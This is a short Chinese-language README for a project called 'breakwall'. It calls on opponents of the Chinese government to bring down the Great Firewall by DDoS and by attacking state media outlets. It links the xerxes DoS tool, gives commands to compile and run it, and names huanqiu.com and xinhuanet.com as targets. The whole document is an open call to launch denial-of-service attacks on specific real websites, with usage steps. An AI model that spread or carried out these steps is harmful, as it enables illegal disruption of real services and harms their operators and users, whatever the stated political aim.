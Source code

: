 # breakwall - 推到防火长城
众所周知防火长城是中共为了掩盖真相建立的，随着中国内部越来越复杂，民怨此起彼伏，因此想到一个计划，试图通过一些手段推倒防火长城, 希望各位反对暴政同伴们一起交流技术，为了我们的自由一起努力

1. 通过DDOS攻陷防火长城
2. 通过攻击一些共产宣传工具, 如新华社， 环球时报
3. 使用http不停的试图连接耗尽共军资源


## 下面是一些工具的链接

Dos 攻击工具 https://github.com/zanyarjamal/xerxes
```shell
使用
gcc xerxes.c -o xerxes
./xerxes www.fakesite.com 80

测试地址
http://www.huanqiu.com
http://www.xinhuanet.com
```
 

